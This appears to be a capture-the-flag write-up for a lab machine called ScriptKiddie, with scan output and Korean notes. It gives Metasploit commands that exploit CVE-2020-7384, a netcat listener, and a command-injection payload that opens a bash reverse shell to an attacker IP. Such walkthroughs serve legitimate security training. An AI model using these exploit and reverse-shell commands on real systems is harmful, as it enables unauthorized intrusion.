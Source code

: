 ## Machine: ScriptKiddie
- Date: 2021.05.02
- Author: jak010

### Setup
- ExportIP: 10.10.10.226


### Nmap Scan
```text
# Nmap 7.91 scan initiated Sun May  2 15:52:33 2021 as: nmap -sC -sV -oA nmap/initial 10.10.10.226
Nmap scan report for 10.10.10.226
Host is up (0.21s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun May  2 15:52:51 2021 -- 1 IP address (1 host up) scanned in 17.95 seconds
```

### Interesting
- 사용자가 입력한 값을 결과로 보여주고 있음
- `Payloads`를 입력받는 곳에서 플랫폼을 선택할 수 있음
	- windows
	- linux
	- android

### Malicious Payload
- `exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection`
	- Refer to
		- `https://nvd.nist.gov/vuln/detail/CVE-2020-7384`
		- `https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/`

### Exploit && Ganing Shell
- Payload Generate
    ```sh
    msf6 > search apk_template
    msf6 > use 0
    msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set LHOST 10.10.14.58
    msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > exploit
    [+] msf.apk stored at /Users/jak/.msf4/local/msf.apk
    ```
- Reverse Shell
    ```sh
    $ nc -nvl 4444
    ``` 
        
### Priviliege Escalate
- Payload
    ```sh 
    $ echo “ ;/usr/bin/bash -c ‘/usr/bin/bash -i >& /dev/tcp/10.10.14.58/9001 0>&1’ #” >> hackers
    ```

